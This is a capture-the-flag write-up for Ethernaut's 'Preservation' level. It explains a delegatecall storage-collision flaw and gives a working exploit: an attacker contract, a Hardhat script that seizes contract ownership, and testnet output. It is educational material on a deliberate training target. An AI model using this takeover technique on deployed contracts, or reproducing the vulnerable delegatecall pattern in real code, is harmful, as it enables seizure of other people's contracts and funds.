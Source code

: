 ```yaml
---
title: "Ethernaut #16 Preservation"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Preservation challenge writeup
---
```


## Preservation

### Challenge

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

### Background

In order to pass this challenge we need to understand that when we `delegatecall` a to some smart contract, the code is executing in the context of the current contract. So when the first slot is being overwritten, it is the first slot in the caller contract and not the callee contract.

### Attack

The `setFirstTime` and `setSecondTime` functions are not used safly here. In fact they are implemented completly wrong and will not function as intended. Normaly when any of the two is called, they will try to update the `storedTime` in there own contract which happens to be in the first slot in storage. However, since they are being `delegatecall`ed, they will actually run in the context of the caller, and hence overwrite the parents first slot in storage. This will result in updating the `timeZone1Library` address. Using this techinque we can make the address point to an attacker controlled contract.

Create a contract that implements a function with the same signature as the `setTime` function, more specifically the signature should be `setTime(uint256)`. This function should have the functionality to replace the third slot with whatever owner we want to set. Then we need to use the original `setTime` function to replace the first slot, which is in fact the address of the contract that is being called.

* Create a contract that:
  * will have a function with the signature `setTime(uint256)`
  * the function `setTime(uint256)` will replace replace the third slot with whatever the argument passed is 
* Call the `setFirstTime` or `setSecondTime` with the address of the attacker controlled contract
* Call the `setFirstTime` with the address of the new owner to be set

#### PreservationSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract PreservationSolve {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    constructor() public {}

    function setTime(uint256 _owner) public {
        owner = address(_owner);
    }
}
```

#### preservation-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    preservationAddress = "0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb";
    contract = await ethers.getContractAt("Preservation", preservationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    PreservationSolve = await ethers.getContractFactory("PreservationSolve");
    preservationSolve = await PreservationSolve.deploy();
    await preservationSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call setFirstTime and overwrite the first slot in the caller contract
    tx = await contract.connect(account).setFirstTime(preservationSolve.address)
    receipt = await tx.wait()

    // call setFirstTime and overwrite the owner slot in the caller contract
    tx = await contract.connect(account).setFirstTime(account.address)
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/preservation-solve.js --network rinkeby
Level address   : 0x06f5b34b422ee5E774b91C5908f0f60E080C4DFb
Contract Owner  : 0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Next time, those friends will request an audit before depositing any money on a contract. Congrats!

Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.

Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.

Move on to the next level when you're ready!
